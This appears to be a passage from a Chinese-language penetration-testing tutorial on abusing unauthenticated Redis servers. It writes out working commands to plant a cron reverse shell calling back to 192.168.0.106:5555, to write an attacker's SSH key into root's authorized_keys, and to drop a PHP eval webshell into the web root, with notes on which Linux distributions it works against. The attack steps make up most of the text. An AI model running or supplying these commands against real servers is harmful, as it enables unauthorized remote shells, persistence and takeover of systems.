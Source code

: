 2.利用redis生成计划任务配置文件
```bash
set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.0.106/5555 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

3.本机获得反弹shell

**Note:**
当目标主机为centos时可以反弹shell, 而ubuntu和debian均无法成功反弹shell。
原因：由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划。



###### 2.直接写入公钥
>root权限运行redis， 且目标主机开启了ssh密钥登录

```bash
# 本机先生成密钥
ssh-keygen -t rsa
# 公钥内容导入key.txt文件
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

#
config set dir /root/.ssh/
config set dbfilename authorized_keys
set test6 "\n\n\nssh key\n\n\n ssh-rsa xxxxxxxxxxxxx" (公钥的值)
save

# 然后本机直接连接目标
ssh  -o StrictHostKeyChecking=no 192.168.0.100
```

同时也要注意系统的乱码问题

<img src="https://image.geoer.cn/20200525224703847_1050926657.png"/>


###### 3.低权限写入WebShell
>需要知道网站路径

```bash
config set dir /var/www/html/    # 需要知道网站的绝对路径
config set dbfilename 1.php
set 1 "<?php eval($_POST[1]); ?>"
save

# 访问webshell
```
<img src="https://image.geoer.cn/20200525222440751_1498038879.png"/>


###### 4.开机自启目录
>前提：redis部署在windows主机上
